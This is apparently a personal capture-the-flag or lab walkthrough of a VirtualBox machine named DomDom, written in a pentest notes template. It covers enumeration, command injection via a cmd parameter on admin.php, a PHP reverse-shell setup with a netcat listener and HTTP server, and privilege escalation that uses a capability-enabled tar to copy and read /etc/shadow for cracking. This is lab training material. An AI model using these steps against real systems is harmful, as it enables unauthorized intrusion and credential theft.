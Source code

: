 

---

**S1REN's Template Reference**

\[OS]: Ubuntu
\[Web-Technology]:  http://192.168.100.7:80
\[Hostname]:  
\[IP]:  192.168.100.7
\[USERS]:   
\[CREDENTIALS]:  

---
\[To-Try LIST]:  

User form - inputs sanitised

Fuzzing

Check GTFO Bins

Can crack shadow with John The Ripper / Hashcat

---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:8F:4A:D5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16


--- 

\[Web Services Enumeration]:   


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)

|     Path: http://192.168.100.7:80/
|     Form id: user_form
|_    Form action: index.php
| http-enum: 
|_  /admin.php: Possible admin folder

Nothing at 

Dirb:
/server-status
/admin.php


SQLi - no results
Fuzzing no results
Brute forcing?
Code Eval/Injection - ACE?

Burpsuite
![[Pasted image 20250829104104.png]]

forward admin.php -> command executed
![[Pasted image 20250829104511.png]]

try execute id `name=admin&username=admin&password=admin&access=access&cmd=id`
![[Pasted image 20250829104706.png]]


code was executed. Now run reverse shell (w/ machine IP) nc and host it on webserver


```
cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 9999
nc -nlvp 1234 
```

![[Pasted image 20250829105936.png]]
![[Pasted image 20250829110029.png]]
![[Pasted image 20250829110044.png]]



---


\[OTHER / PRIVILEGE-ESCALATION]:   
S1ren get that tty
www-data
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
export TERM=xterm-256color  
alias ll='ls -lsaht --color=auto'  
stty raw -echo ; fg ; reset  
stty columns 200 rows 20

cd home

# Saw domdom user here 
cd domdom

# but no perms for reading /Desktop/Readme

which gcc #and cc, wget all positive

file /bin/bash
uname -a #Ubuntu 16.04 LTS


sudo -l #no luck needs passwd
groups #www-data, sudo
env # PATH has /tmp - if privileged binary runs without path then malicious could be planted her

#SUID/SGID
find / -perm -u=s -type f 2>/dev/null # pkexec, fusermount, mount/umount/fstab??
find / -perm -g=s -type f 2>/dev/null # crontab, mlocate, ssh-agent


# Granted Implicit
getcap -r / 2>/dev/null 
#/usr/bin/systemd-detect-virt - cap_dac_override and cap_sys_ptrace - bypass file rw perms and attach/manipulate processes

#/bin/tar = cap_dac_read_search+ep - cap_dac_read_search+ep - can read any file
/bin/tar -cf /tmp/shadow.tar /etc/shadow
cd /tmp
/bin/tar -xf shadow.tar
cat etc/shadow
# Now can crack /etc/shadow w/ hashcat/jtr





```


--- 
Take Away Concepts: 



HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
